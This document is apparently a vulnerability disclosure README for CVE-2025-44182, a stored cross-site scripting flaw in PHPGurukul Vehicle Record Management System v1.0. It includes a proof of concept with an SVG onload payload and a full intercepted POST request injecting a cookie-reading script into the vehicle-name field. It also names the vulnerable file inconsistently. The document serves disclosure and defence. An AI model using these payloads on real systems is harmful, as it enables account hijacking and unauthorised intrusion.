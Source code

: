 # Vehicle-Record-Management-System
XSS vulnerability to Vehicle Record Management System
# CVE-2025-44182-Phpgurukul-Vehicle-Record-Management-System-v1.0-Stored-Cross-Site-Scripting-Vulnerability
+ Exploit Author: nscerol
# Vendor Homepage
+ https://phpgurukul.com/vehicle-record-system-using-php-and-mysql/
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=19587
# Overview
+ PHPGurukul Vehicle Record Management System is susceptible to a critical security vulnerability involving Stored Cross-Site Scripting (XSS) through vehiclename, modelnumber, regnumber, vehiclesubtype, chasisnum, enginenumber parameters in the /edit-brand.php file. The application fails to adequately sanitize user-supplied data, allowing attackers to inject malicious scripts into the application. This could lead to the execution of arbitrary script code in the browsers of unsuspecting users, potentially compromising their security and privacy within the context of the affected site.
# Vulnerability Details
+ CVE ID: CVE-2025-44182
+ Affected Version: PHPGurukul Vehicle Record Management System V1.0
+ Vulnerable File: /admin/edit-vehicle.php
+ Parameters: vehiclename, modelnumber, regnumber, vehiclesubtype, chasisnum, enginenumber
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-44182
+ https://nvd.nist.gov/vuln/detail/CVE-2025-44182
# Description
+ The parameters 'vehiclename, modelnumber, regnumber, vehiclesubtype, chasisnum, enginenumber' in the /admin/edit-vehicle.php file of PHPGurukul Vehicle Record Management System V1.0 are susceptible to Stored Cross-Site Scripting (XSS). This vulnerability arises due to insufficient input validation and sanitation of user-supplied data. An attacker can exploit this weakness by injecting malicious scripts into these parameters, which, when stored on the server, may be executed when other users view the affected user's profile.
# Proof of Concept (PoC) : 
+ Go to the admin profile page and click to 'Vehicle'-->'Manage Vehicle' button to update
+ Click 'Edit' to update any of the data
+ Intercept the POST request to /admin/edit-vehicle.php via Burp Suite
+ Inject the payload to the vulnerable parameters
+ Payload: `"><svg/onload=alert(document.domain)>`
+ Example request for `vehiclename` parameter
```
POST /vehiclerecordsystem/admin/edit-vehicle.php?vehid=4 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 313
Origin: https://localhost
Connection: keep-alive
Referer: https://localhost/vehiclerecordsystem/admin/edit-vehicle.php?vehid=4
Cookie: PHPSESSID=hvah0765vcec9jtep84vlv5eeh
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

brandid=6&vehiclename=TVS+APACHE+RTR%22%3E%3Csvg%2Fonload%3Dalert%28document.cookie%29%3E&modelnumber=RTR+160&regnumber=UP81AB1234&vehicletype=Two+Wheeler&vehiclesubtype=Bike&varient=Petrol&transmission=Manual&chasisnum=BSGSG345345&enginenumber=HFYTYT1312312&description=%22%22%22TVS+APache+RTR+160&submit=+Update
```
+ Go to the Vehicke-->Manage Vehicle--> Edit page and click the vehicle that payload entered and trigger the XSS -->
+ <img width="717" alt="image" src="https://github.com/user-attachments/assets/7cb5b814-bc29-4072-b82b-6b1c58c07a83" />
